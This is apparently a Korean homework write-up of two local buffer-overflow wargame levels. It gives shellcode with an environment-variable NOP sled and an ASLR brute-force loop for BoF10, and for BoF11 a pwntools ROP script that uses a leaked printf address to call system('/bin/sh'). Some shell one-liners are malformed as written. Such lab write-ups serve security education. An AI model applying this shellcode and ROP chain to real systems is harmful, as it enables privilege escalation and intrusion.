# 과제 

## BoF10
### 취약점 분석



bof10은 main함수로부터 argument를 받아 strcpy함수를 이용하여 buf에 저장하기 때문에 Overflow가 일어날 수 있다.

하지만 bufsitze가 shellcode가 들어갈 정도로 크지 않기 때문에 환경변수를 이용하여야 한다.





파일을 실행시켜 보았을때 SHELLCODE라는 환경변수가 없는 것을 확인했다.


다음과 같이 32bit용 Shellcode를 환경변수 SHELLCODE안에 저장한다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80



프로그램을 실행시켰을때 ASLR기법이 적용되어 메모리 주소가 계속 변하는 것을 확인할 수 있다.



이럴때는 무작위로 때려박아 내가 원하는 shellcode가 실행될 때 까지 돌려야 한다.

그 확률을 높이기 위하여 NOP코드 13000개를 추가한다.

그럼 13000개의 NOP코드중 어느곳에 떨어지든 Shellcode를 실행시킬 수 있기 때문에 Shell이 실행될 확률이 높아진다.


    export SHELLCODE="`python -c '\x90'*13000+'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"

while do 문을 이용하여 권한을 얻을때 까지 반복한다.
    
    while true; while true; do ./bof10 `python -c "print 'a'*20 + '\x94\x85\xbc\xff'"`;done do;



## BoF11
### 취약점 분석



bof11은 fgets함수를 이용하여 데이터를 입력받아 저장하기 때문에 Overflow가 발생할 수 있다. 

 bof11은 NX bit가 적용되어 있고 ASLR이 적용되어 있기 때문에 단순하게 RTL방식을 사용해서는 권한을 가져올 수 없다. 



하지만 system에서 printf함수의 주소가 유출되는 것을 확인할 수 있다.

printf의 주소를 알 수 있으면 system함수,pop rdi; ret, /bin/sh 문자열의 상대 거리를 알 수 있다.

printf주소 - system함수 주소

printf주소 - pop rdi;ret 주소

printf주소 - /bin/sh 문자열 주소
를 통하여 상대거리를 구한뒤

프로그램내에서 printf주소 - 상대거리를 계산해 원하는 주소값을 찾을 수 있다.

--------------------------------------------------------
먼저 overflow가 일어나는 크기를 구한다. 18byte





---

프로그램을 실행시킨 후  printf 함수와 system함수의 주소값을 빼 상대거리를 구한다. 

0x10470



---



    ROPgadget.py --binary //tmp/2.23/lib/libc.so.6 | grep 'pop rdi ; ret'
명령어를 통하여 pop rdi; ret 명령어의 offset을 구한 뒤



프로그램 내부에서 실제 pop rdi; ret값 즉 libc시작 주소와 더한 값을 printf함수와 빼준다

0x346fe

--------------------------------------------------------
search-pattern /bin/sh를 이용하여 /bin/sh 문자열의 주소를 찾은 뒤 printf 함수와의 상대 거리를 구한다.



/bin/sh 주소의 값이 더 크기 때문에 계산에 편의를 위하여 큰값에서 작은값을 빼준다.

모든 주소의 상대 거리를 구했기 때문에 python 프로그램을 작성해준다.

<details>
<summary>Python 코드</summary>
<div markdown="1">

```python
from pwn import*

# process함수를 이용하여 실행하고자 입력
p = process('./bof11')

# recvuntil함수를 이용하여 printf() address : 까지 받아와 버린다.
p.recvuntil('printf() address :')

#남은 printf의 주소값만을 저장한다.
printf_addr = p.recvuntil('\n')[:-1]

#recvuntil을 이용하여 받아온 정보는 Byte이기 때문에 .decode()를 이용하여 변환한다.
printf_addr =printf_addr.decode()

#변환된 값은 문자열이기 때문에 정수형태로 바꿔 주소를 계산을 해준다.
system_addr = int(printf_addr,16) - 0x10470
binsh_addr =int(printf_addr,16) + 0x137557
poprdi_ret = int(printf_addr,16) - 0x346fe


# 얻어낸 정보를 이용하여 Payload를 작성한다.

# p64를 이용하여 변환된 값은 byte이기 때문에 버퍼를 채울 쓰레기 값들도 byte로 변환시켜준다.
payload = b'x'*18

#64bit little endian방식으로 payload를 추가해준다.
payload += p64(poprdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)

#payload를 보내고 interactive함수를 이용하여 payload를 전달한다.
p.send(payload)
p.interactive()
```

</div>
</details>


다음과 같이 작성된 python코드를 실행시키면



bof12의 권한을 가져온 것을 확인할 수 있다.
